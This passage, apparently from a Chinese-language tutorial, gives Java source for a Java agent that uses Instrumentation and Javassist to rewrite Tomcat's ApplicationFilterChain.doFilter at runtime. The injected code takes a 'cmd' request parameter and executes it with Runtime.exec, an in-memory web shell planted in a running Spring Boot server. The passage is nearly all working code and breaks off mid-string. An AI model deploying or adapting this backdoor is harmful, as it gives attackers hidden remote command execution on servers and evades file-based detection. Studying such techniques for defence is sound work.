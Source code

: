 创建agentmain文件`SpringBootAgent.java`
```java
package com.luc.agentmain;

import java.io.IOException;
import java.lang.instrument.Instrumentation;
import java.lang.instrument.UnmodifiableClassException;

public class SpringBootAgent {
    public static void agentmain(String agentArgs, Instrumentation ins) throws IOException, UnmodifiableClassException {
        Class[] classes = ins.getAllLoadedClasses();
        for (Class aClass : classes) {
            if(aClass.getName().contains("ApplicationFilterChain")){
                ins.addTransformer(new SpringBootDefineTransformer(),true);
                ins.retransformClasses(aClass);
            }
        }
    }
}

```
创建继承ClassFileTransformer类的文件`SpringBootDefineTransformer.java`
```java
package com.luc.agentmain;

import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.security.ProtectionDomain;

public class SpringBootDefineTransformer implements ClassFileTransformer {
    public static final String editClassName = "org.apache.catalina.core.ApplicationFilterChain";
    public static final String editClassName2 = editClassName.replace('.', '/');
    public static final String editMethod = "doFilter";

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        if (editClassName2.equals(className)) {
            try {
                ClassPool cp = ClassPool.getDefault();
                if (classBeingRedefined != null) {
                    ClassClassPath ccp = new ClassClassPath(classBeingRedefined);
                    cp.insertClassPath(ccp);
                }

                CtClass ctc = cp.get(editClassName);
                CtMethod method = ctc.getDeclaredMethod(editMethod);
                String source = "javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
```